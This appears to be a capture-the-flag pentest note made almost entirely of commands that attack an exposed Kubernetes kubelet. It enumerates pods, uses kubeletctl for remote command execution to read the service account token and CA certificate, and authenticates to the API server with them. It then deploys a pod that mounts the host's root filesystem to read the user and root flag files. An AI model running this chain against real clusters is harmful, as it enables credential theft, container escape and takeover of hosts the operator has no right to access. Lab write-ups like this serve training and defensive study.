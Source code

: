 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
curl https://$TARGET:10250/pods -k
```

```bash - kali
git clone https://github.com/cyberark/kubeletctl
```

```bash - kali
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.7/kubeletctl_linux_amd64
```

```bash - kali
chmod a+x ./kubeletctl_linux_amd64  
```

```bash - kali
sudo mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```

```bash - kali
kubeletctl --server $TARGET pods
```

```bash - kali
kubeletctl --server $TARGET scan rce
```

```bash - kali
kubeletctl --server $TARGET exec "id" -p nginx -c nginx
```

```bash - kali
kubeletctl --server $TARGET exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx  
```

```bash - kali
kubeletctl --server $TARGET exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx
```

```bash - kali
export token="eyJhbGciOiJSUzI1Ni....."
```

Save the ca.crt output to a file named "ca.crt"

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 get pods
```

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 auth can-i --list
```

---

f.yaml

```yaml - kali
apiVersion: v1
kind: Pod
metadata:
  name: nginxt
  namespace: default
spec:
  containers:
  - name: nginxt
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

---

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 apply -f f.yaml  
```

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 get pods
```

```bash - kali
kubeletctl --server $TARGET exec "cat /root/home/user/user.txt" -p nginxt -c nginxt  
```

```bash - kali
kubeletctl --server $TARGET exec "cat /root/root/root.txt" -p nginxt -c nginxt
```